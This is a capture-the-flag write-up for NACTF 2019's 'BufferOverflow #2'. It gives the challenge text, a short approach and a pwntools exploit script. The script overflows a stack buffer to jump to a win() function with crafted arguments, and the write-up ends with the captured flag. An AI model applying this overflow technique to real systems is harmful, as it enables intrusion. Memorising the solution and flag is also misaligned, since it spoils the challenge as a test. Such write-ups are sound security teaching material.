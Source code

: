 # BufferOverflow #2

## Binary Exploitation - Points: 200

> The close cousin of a website for "Question marked as duplicate" - part 3!
>
> 
>
> Can you control the arguments to `win()` and get the flag?
>
> 
>
> Connect at `shell.2019.nactf.com:31475`
>
> [bufover-2.c](bufover-2.c)
>
> [bufover-2](bufover-2)
>

Jump to the `win` function and pass the correct arguments. Note that the first one is of type `long long` and the second one of type `int`.

Exploit script:

```python
from pwn import *

# p = process('bufover-2')
p = remote('ingress.cluster.nactf.com', 31184)

win  = '\xc2\x91\x04\x08' # 0x80491c2
arg1 = '\x55\xda\xb4\x14' # 0x14B4DA55
arg2 = '\xbe\xb4\x0d\xf0' # 0xF00DB4BE

print p.recv()

p.sendline('A'*28+win+'AAAA'+arg1+'\x00\x00\x00\x00'+arg2)
print p.recvall()
```

flag: `nactf{PwN_th3_4rG5_T0o_Ky3v7Ddg}`
